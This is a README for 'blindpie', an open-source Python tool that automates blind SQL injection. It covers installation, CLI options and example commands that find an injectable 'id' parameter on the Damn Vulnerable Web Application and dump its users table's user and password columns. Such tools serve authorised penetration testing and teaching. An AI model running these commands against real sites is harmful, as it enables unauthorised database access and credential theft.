 <h1 align="center">
	<br>blindpie<br>
</h1>

<h4 align="center">Automatically exploit blind-SQLi vulnerabilities</h4>

<p align="center">
	<a href="https://github.com/alessiovierti/blindpie/releases">
		<img src="https://img.shields.io/github/release/alessiovierti/blindpie.svg">
	</a>
	<a href="https://travis-ci.org/alessiovierti/blindpie">
		<img src="https://travis-ci.org/alessiovierti/blindpie.svg?branch=master">
	</a>
</p>

<p align="center">
	<a href="#installation">Installation</a> •
	<a href="#features">Features</a> •
	<a href="#usage">Usage</a> •
	<a href="#examples">Examples</a> •
	<a href="#tips">Tips</a> •
	<a href="#contributing">Contributing</a>
</p>

<p align="center">
	<img src="https://i.imgur.com/tfMaLG9.gif" alt="Demo Long Fetch">
</p>

### Installation

```
pip install blindpie
```

### Features

- Test if any parameter is exploitable
- **Fast** multithreading fetching of a table
- Dump part of a table or keep fetching until stopped / until end of table
- Dump results on a TSV file
- Use custom headers for HTTP requests
- Define the default values of the other parameters in the requests

### Usage

<h4 align="center">Testing parameters</h4><p></p>

<p align="center">
	<img src="https://i.imgur.com/0D9Zyx0.gif" alt="Demo Test">
</p>

```
usage: blindpie.py test [-h] -M method -P params [-H headers] [-T threshold]
                        [-I max_interval]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters to test and their default values (must
                        be a JSON dictionary)
  -H headers, --headers headers
                        the headers for the requests (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
```

<h4 align="center">Fetching a table</h4><p></p>

<p align="center">
	<img align="center" src="https://i.imgur.com/ubsFh8M.gif" alt="Demo Short Fetch">
</p>

```
usage: blindpie.py fetch_table [-h] -M method -P params [-H headers]
                               [-T threshold] [-I max_interval] -p
                               vulnerable_param -t table -c columns
                               [-r from_row] [-n n_rows]
                               [--min_row_length min_row_length]
                               [--max_row_length max_row_length]
                               [-o output_path]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters and their default values (must be a
                        JSON dictionary)
  -H headers, --headers headers
                        the headers for the request (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
  -p vulnerable_param, --vulnerable_param vulnerable_param
                        the vulnerable parameter to exploit
  -t table, --table table
                        the name of the table to fetch
  -c columns, --columns columns
                        the columns to select
  -r from_row, --from_row from_row
                        the row from which to start to select
  -n n_rows, --n_rows n_rows
                        the number of rows to select
  --min_row_length min_row_length
                        limit selection to rows with this min length
  --max_row_length max_row_length
                        limit selection to rows with this max length
  -o output_path, --output_path output_path
                        path to the output file
```

### Examples

Let's consider for example the [Damn Vulnerable Web Application](http://www.dvwa.co.uk), in particular its page `vulnerabilities/sqli_blind/`.

The page shows a form to search information about a user. The form sends a GET request with parameters `id` and `Submit`.

To test which parameters are exploitable we can use the `test` command:

- First, we need to prepare a default request which contains the default values for the parameters, as a JSON dictionary:

	`{"id":"1","Submit":"Submit"}`

- Then we need to prepare the headers (if you don't provide any `blindpie` will use some default ones). In this case the page requires a PHPSESSID value in the Cookie header (and a cookie `security` to set the security level of DVWA):

	`{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}`

The following command will find which parameters are exploitable:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ test -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}'
```

`blindpie` will find out that the `id` parameter is indeed exploitable.

Let's say, for example, that we want to dump the `user` table, by selecting its columns `user` and `password` by exploiting the vulnerability we found.

The following command will dump the fetched rows into a TSV file:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ fetch_table -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}' -p "id" -t "users" -c "user,password"
```

If you want to end the fetching before it may be completed, stop it with <kbd>CTRL</kbd>+<kbd>C</kbd>.
You'll find the dumped table in a file named `blindpie.out` in your working directory.

### Tips

`blindpie` gives you some ways of getting faster or more reliable results:

- `--threshold` can make fetching much faster when it's close to 1 but it will be also much less reliable.
- `--max_interval` can make requests more distant one with the other. Choose wisely since an high value will make fetching much slower. When testing local targets you should use 0.
- `--min_row_length` and `--max_row_length` can help get faster results by limiting the search to rows with length in this range.

### Contributing

If you have any idea, tip, or you want to contribute in any way, open an issue or contact me in any way you prefer.

If you want to have a look at how the project is structured check `./docs/uml/uml.svg`.

If you wanna play with it or extend it use the `Makefile` to install the requirements (`$ make init`) or launch the tests (`$ make test`).

### Authors

* **Alessio Vierti** - *Initial work*

### License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
